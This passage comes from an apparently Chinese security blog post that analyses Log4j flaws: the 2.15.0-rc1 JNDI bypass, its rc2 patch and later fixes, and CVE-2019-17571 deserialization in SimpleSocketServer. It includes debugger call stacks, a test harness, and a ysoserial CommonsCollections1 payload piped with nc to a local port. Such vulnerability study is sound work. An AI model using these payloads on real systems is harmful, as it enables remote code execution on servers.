            if ("lookups".equalsIgnoreCase(option)) {
                return true;
            }
        }
    }

    return false;
}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231120132832-a4bb0a7c-8765-1.png)

回到 MessagePatternConverter 实例化函数，由于 lookups 为 true，所以构造 LookupMessagePatternConverter  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231120132848-ae4c6176-8765-1.png)

函数调用栈：

```plain
loadLookups:53, MessagePatternConverter (org.apache.logging.log4j.core.pattern)
newInstance:89, MessagePatternConverter (org.apache.logging.log4j.core.pattern)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:497, Method (java.lang.reflect)
createConverter:590, PatternParser (org.apache.logging.log4j.core.pattern)
finalizeConverter:657, PatternParser (org.apache.logging.log4j.core.pattern)
parse:420, PatternParser (org.apache.logging.log4j.core.pattern)
parse:177, PatternParser (org.apache.logging.log4j.core.pattern)
build:474, PatternLayout$SerializerBuilder (org.apache.logging.log4j.core.layout)
<init>:140, PatternLayout (org.apache.logging.log4j.core.layout)
<init>:61, PatternLayout (org.apache.logging.log4j.core.layout)
build:770, PatternLayout$Builder (org.apache.logging.log4j.core.layout)
build:627, PatternLayout$Builder (org.apache.logging.log4j.core.layout)
build:122, PluginBuilder (org.apache.logging.log4j.core.config.plugins.util)
createPluginObject:1107, AbstractConfiguration (org.apache.logging.log4j.core.config)
createConfiguration:1032, AbstractConfiguration (org.apache.logging.log4j.core.config)
createConfiguration:1024, AbstractConfiguration (org.apache.logging.log4j.core.config)
createConfiguration:1024, AbstractConfiguration (org.apache.logging.log4j.core.config)
doConfigure:643, AbstractConfiguration (org.apache.logging.log4j.core.config)
initialize:243, AbstractConfiguration (org.apache.logging.log4j.core.config)
start:289, AbstractConfiguration (org.apache.logging.log4j.core.config)
setConfiguration:626, LoggerContext (org.apache.logging.log4j.core)
reconfigure:699, LoggerContext (org.apache.logging.log4j.core)
reconfigure:716, LoggerContext (org.apache.logging.log4j.core)
start:270, LoggerContext (org.apache.logging.log4j.core)
getContext:155, Log4jContextFactory (org.apache.logging.log4j.core.impl)
getContext:47, Log4jContextFactory (org.apache.logging.log4j.core.impl)
getContext:196, LogManager (org.apache.logging.log4j)
getLogger:599, LogManager (org.apache.logging.log4j)
<clinit>:7, RC1Bypass (org.example)
```

观察这个函数调用能够得到如何解析配置文件的

**第二**：  
接下来进入到测试代码的主函数中，还是回到第一个关键点 toSerializable 方法，此时的 convert 是计划中的 LookupMessagePatternConverter  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231120132907-b9f67034-8765-1.png)

进入 LookupMessagePatternConverter 的 format 方法，这里会寻找"${"，并且进行替换操作

```plain
public void format(final LogEvent event, final StringBuilder toAppendTo) {
        int start = toAppendTo.length();
        // 格式化
        this.delegate.format(event, toAppendTo);
        // 寻找${
        int indexOfSubstitution = toAppendTo.indexOf("${", start);
        if (indexOfSubstitution >= 0) {
            // 这里
            this.config.getStrSubstitutor().replaceIn(event, toAppendTo, indexOfSubstitution, toAppendTo.length() - indexOfSubstitution);
        }

    }
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231120132925-c47707d0-8765-1.png)

**第三**：  
跳过中间的步骤，来到 JndiLookup 的 lookup 方法处，获取 JndiManager 对象的操作前面已经讲了，接下来就是进入其 lookup 方法

```plain
var6 = Objects.toString(jndiManager.lookup(jndiName), (String)null);
```

由于构造的 URL 中 test 前面存在空格，所以在解析下面代码中会报异常

```plain
URI uri = new URI(name);
```

然后执行最后的 lookup 操作，lookup 会自动去掉空格，从而导致 RCE  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231120132943-cf38e314-8765-1.png)

## log4j-2.15.0-rc2 分析

github commit 地址：[https://github.com/apache/logging-log4j2/commit/bac0d8a35c7e354a0d3f706569116dff6c6bd658](https://github.com/apache/logging-log4j2/commit/bac0d8a35c7e354a0d3f706569116dff6c6bd658)

该 commit 修补了 rc1 带来的缺陷，在 URISyntaxException 异常的空缺块上加了 return 处理，这样就不会是使程序执行至最后一行  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231120133000-d984e11a-8765-1.png)

## 落幕

在 2.15.0-rc2 版本之后，还是出现过一些问题，如：  
2.15.0-rc2 版本包括之前的版本由于 lookups 功能能够导致 DOS 攻击 (CVE-2021-45046)

在 2.15.1-rc1 中，默认禁用 jndi  
在 2.16.0 中，完全移除了 lookup 功能，修改了 MessagePatternConverter 实例化中的逻辑，并且删除了 LookupMessagePatternConverter 这个内部类  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231120133018-e438f2e0-8765-1.png)

## SimpleSocketServer(CVE-2019-17571)

### 影响版本

1.2.4 <= Apache Log4j <= 1.2.17

### SimpleSocketServer 类

org.apache.log4j.net.SimpleSocketServer：该类是一个简单的基于 Socket 的日志消息接收服务器，用于接收远程 log4j 客户端发送的日志消息并将其记录到日志文件中。它监听指定的端口，等待客户端连接，并接收客户端发送的日志事件。

通过启动 SimpleSocketServer，可以在服务器上运行一个 log4j 服务器，接收来自远程客户端的日志消息。这对于集中式日志记录和日志集中化非常有用，特别是在分布式系统或基于网络的应用程序中。

使用 SimpleSocketServer 时，可以配置它的日志记录器、日志格式、日志文件路径等。

默认开启 4560 端口

### 成因

SimpleSocketServer.main 会开启一个端口，接收客户端传输过来的数据并对其进行反序列化

### 测试环境

log4j-1.2.17.jar jdk1.8\_66  
1.2.17 下载地址：[https://archive.apache.org/dist/logging/log4j/](https://archive.apache.org/dist/logging/log4j/)  
或直接 maven 导入

```plain
<dependency>
    <groupId>log4j</groupId>
    <artifactId>log4j</artifactId>
    <version>1.2.17</version>
</dependency>
```

加入 commons-collections3.1

```plain
<dependency>
    <groupId>commons-collections</groupId>
    <artifactId>commons-collections</artifactId>
    <version>3.1</version>
</dependency>
```

### 测试代码

```plain
package org.example;

import org.apache.log4j.net.SimpleSocketServer;
public class CVE201917571 {

    public static void main(String[] args) {
        System.out.println("INFO: Log4j Listening on port 4444");
        String[] arguments = {"4444", (new CVE201917571()).getClass().getClassLoader().getResource("log4j.properties").getPath()};
        SimpleSocketServer.main(arguments);
        System.out.println("INFO: Log4j output successfuly.");
    }
}
```

配置文件 log4j.properties 中的内容：

```plain
log4j.rootCategory=DEBUG,stdout
log4j.appender.stdout=org.apache.log4j.ConsoleAppender
log4j.appender.stdout.layout=org.apache.log4j.PatternLayout
log4j.appender.stdout.threshold=DEBUG
log4j.appender.stdout.layout.ConversionPattern=[%d{yyy-MM-dd HH:mm:ss,SSS}]-[%p]-[MSG!:%m]-[%c\:%L]%n
```

### 函数调用栈

构造 ObjectInputStream 函数调用栈

```plain
<init>:65, SocketNode (org.apache.log4j.net)
main:67, SimpleSocketServer (org.apache.log4j.net)
main:9, CVE201917571 (org.example)
```

线程下的函数调用栈：

```plain
transform:121, ChainedTransformer (org.apache.commons.collections.functors)
get:151, LazyMap (org.apache.commons.collections.map)
invoke:77, AnnotationInvocationHandler (sun.reflect.annotation)
entrySet:-1, $Proxy0 (com.sun.proxy)
readObject:444, AnnotationInvocationHandler (sun.reflect.annotation)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:497, Method (java.lang.reflect)
invokeReadObject:1058, ObjectStreamClass (java.io)
readSerialData:1900, ObjectInputStream (java.io)
readOrdinaryObject:1801, ObjectInputStream (java.io)
readObject0:1351, ObjectInputStream (java.io)
readObject:371, ObjectInputStream (java.io)
run:82, SocketNode (org.apache.log4j.net)
run:745, Thread (java.lang)
```

### 详细分析

将断点下在 SimpleSocketServer 类的 main 方法中  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231120133043-f344eda2-8765-1.png)

进入 main 函数

```plain
public static void main(String argv[]) {
    // 读取配置文件，初始化操作
    if(argv.length == 2) {
      init(argv[0], argv[1]);
    } else {
      usage("Wrong number of arguments.");
    }

    try {
      cat.info("Listening on port " + port);
      // 新建一个ServerSocket对象
      ServerSocket serverSocket = new ServerSocket(port);
      // 循环接收客户端的等待连接
      while(true) {
        cat.info("Waiting to accept a new client.");
        // 接受
        Socket socket = serverSocket.accept();
        cat.info("Connected to client at " + socket.getInetAddress());
        cat.info("Starting new socket node.");
        // 创建一个线程
        new Thread(new SocketNode(socket,
                    LogManager.getLoggerRepository()),"SimpleSocketServer-" + port).start();
      }
    } catch(Exception e) {
      e.printStackTrace();
    }
}
```

执行到 serverSocket.accept();会一致等待接收，此时使用 ysoserial 生成 CC1 链的 payload，再使用 nc 向目标 ip 和端口发送数据

```plain
java -jar ysoserial-all.jar CommonsCollections1 "calc.exe" > cve201917571
cat cve201917571| nc 127.0.0.1 4444
```

此时 accept 成功接收到一个客户端的连接  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231120133100-fd4054f4-8765-1.png)

主要看创建线程的代码，里面参数中 new 了一个 SocketNode 对象，进入

```plain
public SocketNode(Socket socket, LoggerRepository hierarchy) {
    this.socket = socket;
    this.hierarchy = hierarchy;
    try {
        // 创建一个 ObjectInputStream 对象 ois，数据从 socket 中获取数据流
      ois = new ObjectInputStream(
                         new BufferedInputStream(socket.getInputStream()));
    } catch(InterruptedIOException e) {
      Thread.currentThread().interrupt();
      logger.error("Could not open ObjectInputStream to "+socket, e);
    } catch(IOException e) {
      logger.error("Could not open ObjectInputStream to "+socket, e);
    } catch(RuntimeException e) {
      logger.error("Could not open ObjectInputStream to "+socket, e);
    }
}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231120133119-0882effc-8766-1.png)

跳出之后，主线程的新建一个子线程，并传递刚刚获取的 SocketNode 对象，并调用线程的启动函数 strat

接下来就是子线程执行的部分

```plain
@Override
public void run() {
    if (target != null) {
        target.run();
    }
}
```

这里的 target 就是前面得到的 SocketNode 对象

进入该对象的 run 方法

```plain
public void run() {
    LoggingEvent event;
    Logger remoteLogger;

    try {
      if (ois != null) {
          while(true) {
            // read an event from the wire
            // 调用readObejct方法，从ois中读取一个对象，这也是反序列化触发的地方
            event = (LoggingEvent) ois.readObject();
            // get a logger from the hierarchy. The name of the logger is taken to be the name contained in the event.
            remoteLogger = hierarchy.getLogger(event.getLoggerName());
            //event.logger = remoteLogger;
            // apply the logger-level filter
            if(event.getLevel().isGreaterOrEqual(remoteLogger.getEffectiveLevel())) {
            // finally log the event as if was generated locally
            remoteLogger.callAppenders(event);
          }
        }
      }
    } 
    ...
}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231120133138-13f849f4-8766-1.png)  
此时的 ois 正是由 CC1 链构造的恶意 payload，能够导致 RCE，接下来就是 CC1 链中的过程

## 总结

Log4j 作为一款日志记录组件，被广泛应用于各大应用，2021 年的漏洞更是影响众多厂商，经典的漏洞永远值得分析。  
在开始学习 Java 安全分析的过程中，函数调用栈是非常具有参考意义的，它能够理顺整个程序从开始到触发漏洞的一些列中间过程，所以在本文中贴了很多函数调用栈供于学习。与此同时，在分析探索的过程中，逐渐脱离了相关文章的分析，能够独立理解与探索，代码分析能力也逐渐得到提升。
